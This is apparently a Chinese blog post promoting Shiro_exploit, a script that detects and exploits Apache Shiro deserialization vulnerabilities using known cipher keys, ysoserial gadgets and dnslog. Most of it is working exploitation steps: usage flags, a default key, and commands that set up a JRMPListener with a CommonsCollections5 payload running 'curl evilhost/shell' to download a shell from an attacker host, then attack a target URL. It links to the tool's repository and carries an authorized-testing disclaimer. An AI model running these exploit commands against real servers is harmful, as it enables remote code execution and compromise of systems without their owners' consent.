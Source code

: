 #  【工具篇】Apache Shiro 反序列化漏洞检测与利用工具   
insightglacier  扫地僧的茶饭日常   2024-11-02 10:00  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/6VPfsHeIgHLXhdpFEFwcnAVZhMxOcOX66B1Kwjqy1nYJO89qEPK8ffVKuJglr08vspHMZIDiccYznojvbqsVytA/640?wx_fmt=gif "")  
  
喜欢就关注我吧，订阅更多最新消息  
  
  
**工具介绍**  
  
  
  
Shiro_exploit用于检测与利用Apache Shiro反序列化漏洞脚本。可以帮助企业发现自身安全漏洞。  
  
该脚本通过网络收集到的22个key，利用ysoserial工具中的URLDNS这个Gadget，并结合dnslog平台实现漏洞检测。漏洞利用则可以选择Gadget和参数，增强灵活性。  
  
  
**环境**  
  
  
  
Python2.7  
  
requests  
  
Jdk 1.8  
  
  
**使用说明**  
  
  
```
usage: shiro_exploit.py [-h] -u URL [-t TYPE] [-g GADGET] [-p PARAMS] [-k KEY]

OPTIONS:
-h, --help            show this help message and exit
-u URL, --url URL     Target url.
-t TYPE, --type TYPE  Check or Exploit. Check :1 , Exploit:2 , Find gadget:3
-g GADGET, --gadget GADGET
                        gadget
-p PARAMS, --params PARAMS
                        gadget params
-k KEY, --key KEY     CipherKey

Example: python shiro_exploit.py -u target
```  
  
检测默认只需要使用-u参数即可。  
  
检测可用gadget的方式可以运行  
```
python shiro_exploit.py -u http://target/ -t 3 -p "ping -c 2 {dnshost}" -k "kPH+bIxk5D2deZiIxcaaaA=="
```  
  
程序执行时会获取dnslog的域名替换 {dnshost} 这个值。不需要进行修改。目前还没解决windows和linux系统通用性的问题。这里-p自己根据实际情况指定下吧。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/6VPfsHeIgHIyG3Fq84rvz1rpupwIEHxicEdicktaUmWqDCRIFXajJvtIMVXUTjgARDAPCY2hD7QqLicFwDD9TclYA/640?wx_fmt=png&from=appmsg "")  
  
利用的话，可以采用JRMP的方式。也可以根据检测出来的gadge来进行利用。  
  
服务器：  
```
java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections5 'curl evilhost/shell –o shell'
```  
  
本地：  
```
python shiro_exploit.py -u http://target/ -t 2 -g JRMPClient -p "remote_host:1099" -k "kPH+bIxk5D2deZiIxcaaaA=="
```  
  
  
**下载地址**  
  
  
  
https://github.com/insightglacier/Shiro_exploit  
  
  
**注：****本文中提到的漏洞验证 poc 或工具仅用于授权测试，任何未经授权的测试均属于非法行为。任何人不得利用本文中的技术手段或工具进行非法攻击和侵犯他人的隐私和财产权利。一旦发生任何违法行为，责任自负。**  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/6VPfsHeIgHLXhdpFEFwcnAVZhMxOcOX66B1Kwjqy1nYJO89qEPK8ffVKuJglr08vspHMZIDiccYznojvbqsVytA/640?wx_fmt=gif "")  
  
喜欢就关注我吧，订阅更多最新消息  
  
  
  
